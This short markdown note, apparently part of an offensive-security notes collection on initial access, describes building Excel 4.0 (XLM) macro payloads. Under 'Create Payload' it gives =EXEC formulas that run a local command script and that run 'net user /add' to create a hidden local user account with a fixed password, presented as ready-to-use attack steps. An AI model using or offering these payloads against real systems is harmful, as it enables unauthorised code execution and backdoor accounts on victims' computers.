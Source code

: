 # XML Macro

---

Microsoft Excel still supports Excel 4.0 (XLM) macros, we encourage you to migrate them to the latest version of Microsoft Visual Basic for Applications (VBA). Migrating your macros lets you take advantage of the improvements to the VBA programming object model

### Create Payload

Right click on sheet --> insert --> MS Excel 4.0 Macro

```excel
=EXEC("E:\Initial-Access\Macro\screen.cmd")
=HALT()
```

```excel
=EXEC("cmd /c net user /add nooranet Aa123456")
=HALT()
```
